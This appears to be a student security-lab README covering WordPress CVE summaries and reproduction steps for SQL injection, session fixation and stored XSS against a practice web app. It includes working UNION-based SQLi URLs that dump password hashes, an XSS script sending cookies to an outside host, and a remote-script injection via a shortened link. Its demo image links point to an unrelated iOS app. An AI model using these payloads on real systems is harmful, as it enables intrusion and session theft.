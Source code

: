 # Weeks-7-8-Project-WordPress-vs.-Kali
Time spent: 30 hours spent in total

## SQL Injection:

This is an SQL injection vulnerability in Wordpress version 4.7.1. This vulnerability allows remote hackers to execute arbitrary commands by taking advantage an affected plugin or theme that mishandles a crafted post type name. This vulnerability requires very little knowledge or skill to exploit and is ranked 7.5 on the Common Vulnerability Scoring System. Authentication is not required to exploit the vulnerability. Modification of files and information on the system is possible, but the scope of what the attacker can affect is limited. 

## CRSF:
This is a cross-site request forgery CSRF vulnerability in the widget-editing accesibility-mode feature in Wordpress version 4.7.1. This allows remote hackers to hijack the authentication of unspcified victims for requestst that allow for widget-access action that is related to wp-aadmin/includes/class-wp-screen.php. This vulnerability has a CVSS score of 6.8. This vulnerability allows for limited scope of modification on the attacker’s behalf. Authenticcation is not required to exploit this vulnerability.

Example of this is found at https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733

## DoS:
This vulnerability allows remote attackers to cause a denial of service attack via unspecified vendors due to the oEmbed protocol implementation in the WordPress. This vulnerability existed in Wordpress version 4.5.2 and was secured in the 4.5.3 version. This has a CVSS score of 5.0 and was considered to be a low level of access complexity, meaning that very little knowledge is needed to exploit this. The CWE is not defined for this vulnerability.

## Vulnerability #1: SQL Injection (SQLi)

### Steps to recreate:

- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1

- Replace the id parameter with a single quote '. Example: https://104.198.208.81/blue/public/salesperson.php?id='

- After the quote type url encoded SQL command. Example: https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+

- You can interate through the records by changing the LIMIT and OFFSET values

- Some of the example commands:
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+

<img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_11.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>

## Vulnerability #2: Session Hijacking/Fixation
### Steps to recreate:

- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
      <script src="https://bit.ly/2z1UCVh"></script>
- https://bit.ly/2z1UCVh is a shortened link for a js script hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin
- This is possible because new PHPSESSID is not generated when a used logs into website

<img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_11.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>

## Vulnerability #3: Cross-Site Scripting (XSS)
### Steps to recreate:

- Go to the Contact page.
- In the text area type the following script
  <script>var node = document.createElement('img');
  node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
  document.getElementById("main-content").appendChild(node);</script>
- Submit the form
- When admin checks the feeedback PHPSESSID will be sent to the http://192.168.1.2:3000 address as a GET parameter

<img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_11.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>
